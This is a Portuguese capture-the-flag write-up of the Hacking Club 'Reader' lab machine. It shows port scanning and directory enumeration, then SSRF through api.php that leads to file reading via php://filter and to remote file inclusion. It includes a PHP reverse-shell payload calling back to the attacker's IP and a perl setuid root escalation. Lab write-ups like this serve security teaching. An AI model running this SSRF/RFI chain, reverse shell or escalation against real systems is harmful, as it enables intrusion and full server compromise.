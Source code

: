```yaml
---
title: 'Reader Writeup'
date: '2024-06-29'
tags: ['SSRF','RFI']
draft: false
summary: 'Writeup do CTF Reader da Hacking Club.'
images: ['/static/images/canada/mountains.jpg', '/static/images/canada/toronto.jpg']
authors: ['default']
---
```

![Logo Reader](/static/images/writeup-reader-images/logo-reader.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Reader

### IP: 172.16.4.104

**Gabriel Silva | 29 de junho, 2024**

---

### **Port Scanning**

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b:6f:d9:6f:08:c8:eb:59:76:5f:fe:f5:1f:28:b4:d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdE/+UDioqJcBqKEjyENBihhOMB9Ocue8I+pDmGchJZvrGwO2MbIiL6VLH+bqm08nrq+NdjzWM7TewudhK9viM=
|   256 81:51:ba:61:11:db:07:50:51:66:92:d8:e1:ff:68:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKH7CspTNqFcDLRTPhHJYggspYSAuzmq+DXCv2U/Q2Jq
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Emergency Maintenance
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Essa maquina tem somente as portas 22 (SSH) e 80 (HTTP) aberta.

### **Enumeration**

Uma página web simples que aparentemente está em manutenção e somente o serviço de API está funcionando.
![Página de manutenção](/static/images/writeup-reader-images/1.png)

Nada no robots.txt.

Não tem muito o que se fazer , então fiz um fuzzing pra procurar por diretórios antes de ver essa API.

`gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -x php,sh,txt,cgi,html,js,css,py`

```bash
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 200) [Size: 56]
/index.php            (Status: 200) [Size: 17866]
/logfiles             (Status: 301) [Size: 315] [--> <http://172.16.4.104/logfiles/>]

```

Tem um diretório chamado `logfiles` que vai ser útil mais pra frente.

---

Na parte de API diz que só aceita requisições POST.

![API POST](/static/images/writeup-reader-images/2.png)
Peguei a requisição pelo burp pra enviar com POST.
![Burp requisicao](/static/images/writeup-reader-images/3.png)
Diz que esta faltando um parâmetro chamado URL.

Por alguma razão pelo burp não esta funcionando passar o parâmetro , mas via curl deu certo:

![Curl POST](/static/images/writeup-reader-images/4.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1"`


Ele está salvando a requisição em algum lugar no arquivo .txt (Salvo em /logfiles/ achado via gobuster).
![Curl resposta](/static/images/writeup-reader-images/curl-1.png)Como o parâmetro se chama `url` podemos deduzir que se trata de um SSRF.
Utilizei esse simples port scan pra descobrir quais portas internas o servidor possui.

```bash
for port in 22 21 25 80 8080 3306 5432 8443 445 9000; do echo "Scanning port $port..."; curl -X POST -s -d "url=http://127.0.0.1:$port" "<http://172.16.4.104/api.php>" | cat; done
```

Foi achado 2 portas interessantes com esse portscan a porta 3306 e a 8080:
![Portas interessantes](/static/images/writeup-reader-images/curl-2.png)
Agora é fazer a requisição na porta 8080 com o curl e ver .

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/"`

![Curl 8080](/static/images/writeup-reader-images/curl-3.png)A gente pode ir no diretorio `logfiles` pra ver qual foi a resposta do servidor.

![Logfiles resposta](/static/images/writeup-reader-images/logfile-output-1.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php"`
![Curl read.php](/static/images/writeup-reader-images/curl-4.png)
Lendo o output , ele diz que falta um parâmetro chamado `file`
![Logfiles output 2](/static/images/writeup-reader-images/logfile-output-2.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=/etc/passwd"`
![Curl etc/passwd](/static/images/writeup-reader-images/curl-5.png)
![Logfiles output 3](/static/images/writeup-reader-images/logfile-output-3.png)
Pra entender melhor o que a aplicação está fazendo a gente vai ler o arquivo read.php utilizando o schema `php://`

Lembrando que é necessário converter pra base64 , por que se não a aplicação vai nos retornar uma pagina em branco.

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=php://filter/convert.base64-encode/resource=read.php"`
![Curl base64](/static/images/writeup-reader-images/curl-6.png)
![Logfiles output 4](/static/images/writeup-reader-images/logfiles-output-4.png)
![Decode base64](/static/images/writeup-reader-images/decode-base64.png)

`Include $_GET ['file']` indica um RFI (Remote-File Inclusion) que podemos usar pra ganhar acesso ao servidor.

## Foothold

`python3 -m http.server`

```bash
#shell.php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.0.31.150/1337 0>&1'"); ?>
```
![Python server](/static/images/writeup-reader-images/python-m-http-server.png)

Agora é so mandar a requisição pro servidor.
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=http://10.0.31.150:80/shell.php"`
![Foothold](/static/images/writeup-reader-images/foothold.png)
## Privilege Escalation

`getcap -r / 2>/dev/null`
![Privesc 1](/static/images/writeup-reader-images/privesc-1.png)
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";’`
![Privesc 2](/static/images/writeup-reader-images/privesc-2.png)
## Proof
![Proof](/static/images/writeup-reader-images/proof.png)